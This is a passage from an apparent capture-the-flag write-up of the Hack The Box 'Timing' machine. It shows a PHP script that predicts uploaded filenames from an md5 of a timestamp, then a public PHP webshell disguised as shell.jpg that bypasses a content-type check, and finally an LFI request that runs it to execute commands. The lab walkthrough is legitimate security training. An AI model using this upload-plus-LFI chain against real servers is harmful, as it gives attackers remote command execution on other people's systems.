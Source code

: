 ![image](https://user-images.githubusercontent.com/69868171/148083729-021ec90d-39a7-418f-87ae-d419f0f9a5e8.png)

Send to burp repeater.

![image](https://user-images.githubusercontent.com/69868171/148083817-2820894a-16d8-4c22-b352-6e17559d2729.png)

Let send it and the file got uploaded and we have the date now let convert it to unix timestamp using `cyberchef` .

![image](https://user-images.githubusercontent.com/69868171/148084157-0f311e35-8d40-4d5a-b17f-04c5373ba457.png)

Now let add the unix timestamp to our php code that we just wrote.

```
// save in a file name time.php //

<?php
$upload_dir = "images/uploads/";
$file = "minion.jpg";

while(true){
    $file_name = md5('$file_hash'. 1641310558) . '_' . $file;
    $target_file = $upload_dir . $file_name;
    echo $file_name;
    echo PHP_EOL;
    sleep(1);
}
```

Now let run it to get the file name.

![image](https://user-images.githubusercontent.com/69868171/148085261-8c25be4a-d172-4cd3-8dd8-15e12cb0e136.png)

Boom we got it let confirm it now.

![image](https://user-images.githubusercontent.com/69868171/148085465-6dc93fb3-d594-427f-b1c4-9693225b6738.png)

It perfection lol now that we can get the file name we uploaded let try to upload a php script which we can be use to execute a command we can chain it with the `LFI` to access it so we can execute any command we want on the system also we notice upload page content-type is not being check on the header so we can change it to `application/x-php` .

The one i use is `https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php` i download it and rename it to `shell.jpg` upload and intercept it.

![image](https://user-images.githubusercontent.com/69868171/148087267-cdb1685f-c35d-42b5-aa50-436ad7df97b6.png)

I think you already know how to get the file name so it should be easy now let access it with the `LFI` yes i know we are chaining it lol.

```
http://timing.htb/image.php?img=images/uploads/efa58f2dd075e9ffa77ee72e8d8408f2_shell.jpg
```

![image](https://user-images.githubusercontent.com/69868171/148087719-d196d6e3-a762-4b59-9e6b-3028e54519b4.png)
